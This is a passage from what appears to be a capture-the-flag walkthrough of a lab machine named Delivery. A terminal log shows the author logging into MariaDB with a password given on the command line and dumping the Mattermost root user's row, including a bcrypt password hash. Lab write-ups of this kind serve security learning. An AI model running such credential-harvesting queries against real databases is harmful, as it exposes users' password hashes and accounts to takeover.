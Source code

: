 * found root hash inside mattermost database. *here a small sql command [chart](http://g2pc1.bu.edu/~qzpeng/manual/MySQL%20Commands.htm)*

```sql
maildeliverer@Delivery:~$ mysql -u mmuser -pCrack_The_MM_Admin_PW
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 130
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [mattermost]> use mattermost;
Database changed
MariaDB [mattermost]> show tables;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
| ... [snip] ...         |
| Users                  |
+------------------------+
46 rows in set (0.001 sec)

MariaDB [mattermost]> SELECT * FROM  Users WHERE Username = "root";
+----------------------------+---------------+---------------+----------+----------+--------------------------------------------------------------+----------+-------------+-------------------+---------------+----------+-----------+----------+----------+--------------------------+----------------+-------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------+-------------------+----------------+--------+------------------------------------------------------------------------------------------+-----------+-----------+
| Id                         | CreateAt      | UpdateAt      | DeleteAt | Username | Password                                                     | AuthData | AuthService | Email             | EmailVerified | Nickname | FirstName | LastName | Position | Roles                    | AllowMarketing | Props | NotifyProps                                                                                                                                                                  | LastPasswordUpdate | LastPictureUpdate | FailedAttempts | Locale | Timezone                                                                                 | MfaActive | MfaSecret |
+----------------------------+---------------+---------------+----------+----------+--------------------------------------------------------------+----------+-------------+-------------------+---------------+----------+-----------+----------+----------+--------------------------+----------------+-------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------+-------------------+----------------+--------+------------------------------------------------------------------------------------------+-----------+-----------+
| dijg7mcf4tf3xrgxi5ntqdefma | 1608992692294 | 1609157893370 |        0 | root     | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO | NULL     |             | root@delivery.htb |             1 |          |           |          |          | system_admin system_user |              1 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1609157893370 |                 0 |              0 | en     | {"automaticTimezone":"Africa/Abidjan","manualTimezone":"","useAutomaticTimezone":"true"} |         0 |           |
```